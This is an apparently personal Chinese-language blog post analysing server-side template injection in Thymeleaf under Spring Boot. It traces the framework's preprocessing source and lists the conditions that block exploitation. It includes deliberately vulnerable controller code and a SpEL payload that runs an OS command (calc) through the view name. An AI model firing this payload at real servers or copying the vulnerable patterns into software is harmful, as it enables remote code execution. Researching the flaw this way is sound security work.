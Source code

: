 ```yaml
---
layout:     post
title:      Java-Thymeleaf-模板注入分析
subtitle:   简单分析
date:       2020-9-22
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/background/wenzhang/Thymeleaf.jpg
catalog: true
tags:
    - Java
    - 命令注入
---
```


# Java Thymeleaf 模板注入分析

## 模板基本用法



在 springboot 常与 Thymeleaf  搭配使用

模板使用方法，return 为模板的名称

![wHnPeJ.png](https://s1.ax1x.com/2020/09/21/wHnPeJ.png)



![wHn9L4.png](https://s1.ax1x.com/2020/09/21/wHn9L4.png)



效果

![](https://s1.ax1x.com/2020/09/21/wHn6pV.png)



常见用法

https://waylau.gitbooks.io/thymeleaf-tutorial/content/docs/standard-expression-syntax.html

## 模板注入



当return 可控时，或者 返回值为空但url 可控时 就存在模板注入

```java
@Controller
@RequestMapping("/thymeleaf")
public class IndexController {

    //情况一
    @GetMapping("/test")
    public String test(String test){
        return test;
    }

    // 情况二
    @GetMapping("/test1/{test}")
    public void test1(){

    }
}
```



测试payload 

```
__${T(java.lang.Runtime).getRuntime().exec("calc")}__::.x
```





![wHKbee.png](https://s1.ax1x.com/2020/09/21/wHKbee.png)



![wHMuOU.png](https://s1.ax1x.com/2020/09/21/wHMuOU.png)



## 漏洞分析



情况一

在 `org.thymeleaf.spring5.view` 中的 `renderFragment`方法

`viewTemplateName` 的值即为可控输入，并return的值 ，如果值中包含`::` 则进入下面的分只（278行）,然后拼接成 `~{__${T(java.lang.Runtime).getRuntime().exec("calc")}__::.x}`

![wHMzN9.png](https://s1.ax1x.com/2020/09/21/wHMzN9.png)

跟进

![wH3R8s.png](https://s1.ax1x.com/2020/09/21/wH3R8s.png)



`input` 值被 `StandardExpressionPreprocessor.preprocess`处理 

![wH12X6.png](https://s1.ax1x.com/2020/09/21/wH12X6.png)



处理代码,有一个正则匹配`\_\_(.*?)\_\_` 。处理后变成 `${T(java.lang.Runtime).getRuntime().exec("calc")}`

```java
 static String preprocess(
            final IExpressionContext context,
            final String input) {
           //PREPROCESS_DELIMITER 的值为 _
        if (input.indexOf(PREPROCESS_DELIMITER) == -1) {
            // Fail quick
            return input;
        }

        final IStandardExpressionParser expressionParser = StandardExpressions.getExpressionParser(context.getConfiguration());
        if (!(expressionParser instanceof StandardExpressionParser)) {
            // Preprocess will be only available for the StandardExpressionParser, because the preprocessor
            // depends on this specific implementation of the parser.
            return input;
        }
			//PREPROCESS_EVAL_PATTERN  的值为 \_\_(.*?)\_\_
        final Matcher matcher = PREPROCESS_EVAL_PATTERN.matcher(input);
        
        if (matcher.find()) {

            final StringBuilder strBuilder = new StringBuilder(input.length() + 24);
            int curr = 0;
            
            do {
                
                final String previousText = 
                        checkPreprocessingMarkUnescaping(input.substring(curr,matcher.start(0)));
                final String expressionText = 
                        checkPreprocessingMarkUnescaping(matcher.group(1));
                        
                strBuilder.append(previousText);
                
                final IStandardExpression expression =
                        StandardExpressionParser.parseExpression(context, expressionText, false);
                if (expression == null) {
                    return null;
                }
                
                final Object result = expression.execute(context, StandardExpressionExecutionContext.RESTRICTED);
                
                strBuilder.append(result);
                
                curr = matcher.end(0);
                
            } while (matcher.find());
            
            final String remaining = checkPreprocessingMarkUnescaping(input.substring(curr));
            
            strBuilder.append(remaining);
            
            return strBuilder.toString().trim();
            
        }
        
        return checkPreprocessingMarkUnescaping(input);
        
    }
```



继续跟进到`execute`方法

![wHMXBF.png](https://s1.ax1x.com/2020/09/21/wHMXBF.png)



下图可以看到是使用的`SPEL` 引擎，因此只要满足`__(${SPEL})__::` 这中格式即可达到注入效果，不管前后有何值（除去redirect:等），绕过可用SPEL 的绕过方式

![wHMxAJ.png](https://s1.ax1x.com/2020/09/21/wHMxAJ.png)



情况二也类似

如果return 为空，那么url就会当作模板值



## 利用条件



不能有` @ResponseBody` 或者 `@RestController`

如下

```java
    @GetMapping("/test")
    @ResponseBody
    public String test(String test){
        return test;
    }
```



方法参数中不能有 `HttpServletResponse`

```java
    @GetMapping("/system/menuStyle/{style}")
    public void menuStyle(@PathVariable String style, HttpServletResponse response)
    {
        CookieUtils.setCookie(response, "nav-style", style);
    }
```



在返回值前面不能加 "redirect:"

```java
  @GetMapping("/test")
    public String test(String test){
        return "redirect:" + test ;
    }
```

